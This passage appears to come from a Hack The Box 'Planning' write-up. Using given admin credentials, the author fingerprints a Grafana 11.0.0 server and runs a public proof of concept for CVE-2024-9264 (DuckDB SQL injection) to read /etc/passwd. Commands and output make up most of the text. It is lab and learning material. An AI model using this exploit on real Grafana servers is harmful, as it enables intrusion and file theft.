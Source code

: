 Used the creds gave in the machine description previously to login `admin:0D5oT70Fq13EvB5r`

```jsx
└─$ whatweb grafana.planning.htb
[http://grafana.planning.htb](http://grafana.planning.htb/) [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], RedirectLocation[/login], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-XSS-Protection[1; mode=block], nginx[1.24.0]
[http://grafana.planning.htb/login](http://grafana.planning.htb/login) [200 OK] Country[RESERVED][ZZ], Grafana[11.0.0], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], Script[text/javascript], Title[Grafana], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx[1.24.0]
```

The server is running `Grafana 11.0.0` .

Googling ‘Grafana 11.0.0 exploit’ gives us

![image](img/Planning/image%202.png)

# Exploiting CVE-2024-9264

**CVE-2024-9264**

## Grafana Post-Auth DuckDB SQL Injection (RCE, File Read)

Cloned the repo `https://github.com/nollium/CVE-2024-9264`

```jsx
└─$ python3 [CVE-2024-9264.py](http://cve-2024-9264.py/) -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd [http://grafana.planning.htb](http://grafana.planning.htb/)
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```